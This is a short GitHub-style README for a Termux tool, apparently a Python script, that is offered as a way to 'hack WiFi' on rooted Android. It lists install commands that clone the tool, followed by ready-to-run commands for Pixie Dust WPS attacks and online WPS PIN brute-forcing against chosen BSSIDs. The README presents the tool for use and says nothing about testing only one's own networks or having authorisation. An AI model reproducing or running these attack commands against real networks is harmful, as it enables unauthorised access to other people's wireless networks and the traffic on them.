 ## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
 apt update && apt upgrade
 pkg update && pkg upgrade
 pkg install tsu
 pkg install python
 pkg install git
 pkg install -y root-repo
 pkg install -y git tsu python wpa-supplicant pixiewps iw openssl
 git clone https://github.com/Naimulbari444/NHK-WIFI-HACK-WPA
 cd NHK-WIFI-HACK-WPA
 chmod +x NHK_WIFI_HACK.py
 sudo python NHK_WIFI_HACK.py --help
```

#### Example : `sudo python NHK_WIFI_HACK.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python NHK_WIFI_HACK.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python NHK_WIFI_HACK.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python NHK_WIFI_HACK.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
